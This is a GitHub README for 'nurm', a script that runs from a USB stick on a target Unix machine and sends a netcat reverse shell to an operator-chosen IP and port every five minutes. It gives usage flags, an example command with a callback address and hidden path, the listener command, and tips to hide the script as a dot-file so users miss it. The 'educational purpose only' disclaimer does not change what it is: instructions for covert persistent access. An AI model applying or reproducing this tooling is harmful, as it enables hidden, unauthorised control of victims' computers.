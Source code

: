 **This project is for educational purpose only**

## What is nurm?
"Now You Are Mine"(nurm) is an automatic reverse shell script that is designed to be placed and run on the target unix computer via the portable usb drive.

## What does it do?
Once run from the usb, nurm will send the reverse shell to any ip address and port that the user specified every five minutes, allowing the following device with the given ip address to access an interactive shell of the target given that the device is listening to the port specified.

## Usage
**nurm**  
1) Download the script to your favorite usb stick
2) Run the script on the target machine once.  
   **Usage(v 1.2)**: `./nurm [-a ipaddress] [-p port] [-f full-path-filename] [-c]`  
   [-a ip address] - the ip address that the reverse shell will be sent through.  
   [-p port] - the port that is used for the udp connection  
   [-f full-path-filename] - the file with its full path that the reverse shell script will be stored  
   [-c] - load all variables from nurm.conf
3) Use nc -lvp [port] on the ip address  
4) The interactive shell will be sent every 5 minutes

## Examples
`./nurm -a 127.168.123.98 -p 8987 -f /home/user1/.test` will create a script that will send the reverse shell to the address 127.168.123.98 at port 8987 and store the script to /home/user1/.test  
`./nurm -c` will create a script according to the configuration in nurm.conf

## Precautions/ Tips
1) Always hide the file with ".". For example, .test. This way, many unexperienced users will never be ware of the script.
2) The listening device should either be a server or a computer with static ip address. Otherwise, your computer can only be used once.
3) Use the nurm.conf to keep track of your server port and to save your time.
4) For optimization reason, **the variable order of nurm.conf is designed to be unchanged. Changing the order of dport variable will break the config file.**
4) **This script is for educational purpose only. Don't use it to do illegal activities. You are the only responsible for your actions!**

## Status
Currently only support netcat reverse shell.
Now supports config file to save your time.

## Upcoming features
- most reverse-shell support for common langauges
- partial config override
